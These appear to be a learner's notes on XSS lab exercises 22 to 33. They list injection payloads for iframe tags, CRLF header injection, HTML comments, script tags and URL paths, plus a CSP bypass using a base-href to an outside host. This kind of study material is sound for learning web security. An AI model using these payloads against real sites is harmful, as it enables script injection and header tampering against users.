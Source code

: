 	STRING:// STRING? STRING this is the main structure, and we have to make payload as this structure.
	javascript://alert(1)? STRING but here // making single line comment so we need to get help of Decoder
	In decoder we use %0a for new line and %25 for double encoded so it’d be like %250a
	Or we can just use %25%30%61 instead %0a
	javascript://%25%30%61alert(1)?STRING
•	Exercise 22 Injection in Iframe Tag
o	asdf"></iframe><img src=x onerror=confirm(1)>
o	asdf"></iframe><img+src%3dx+onerror%3dconfirm(1)> (CTRL + U to encode in URL)
•	Exercise 23 Injection in HTTP Header
o	CRLF => Carriage Return + Line Feed
	In Program
•	\r for Carriage Return
•	\n for Line Feed
	In URL Encoding
•	%0d for Carriage Return
•	%0a for Line Feed
o	So it’d be like %0d%0a
o	asdf%0d%0aXSS:%201 this is the CRLF injection attack used to set the cookies in victim’s browser. And we can add headers here.
o	So able to add header so able to change Content—Type
o	asdf%0d%0aContent—Type:+text/html
o	asdf<script>alert(1)</script>%0d%0aContent-Type:+text/html
•	Exercise 24 Filtered Double Injection in Javascript Variable  
o	Here ‘ getting encoded and its using sanitizes
o	-alert(1)//asdf\
•	Exercise 28 Injection in HTML Comments
o	
o	To get out from HTML comment, put --> before payload.
o	-->asdf<script>alert(1)</script>
•	Exercise 29 Filtered Injection in HTML Comments
o	It is a regex
o	
o	<script>alert(1)</script>+-->
•	Exercise 31 Injection in Script Tag With Header
o	Here we can add header before “Accept:” header.
	ASDF: xss 
•	(<script>var headers ="asdf":"xss",</script>)
o	xss</script><script>alert(1)</script>
OR
o	We can manipulate path to get reflect.
	GET /gym.php?random
	GET /gym.php/asdf
o	<form action="/gym.php/asdf" method="POST">
o	To get out from tag, Payload:
	asdf"><script>alert(1)</script>
•	Exercise 32 Injection in URL
o	Directly put into the URL (manipulate path)
o	/asdf"><script>alert(1)</script>
•	Exercise 33 Injection Bypassing CSP
o	It is a case of Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks.
o	To find search Content-Security-Policy into source code
o	script-src 'nonce-9effed1b02010163'
o	CSP-Bypass Search this policy into the blog.
	In our case 
	Policy Example:
	script-src 'nonce-r4nd0mch4rs';
	Bypass Example:
	<Base Href=//X55.is>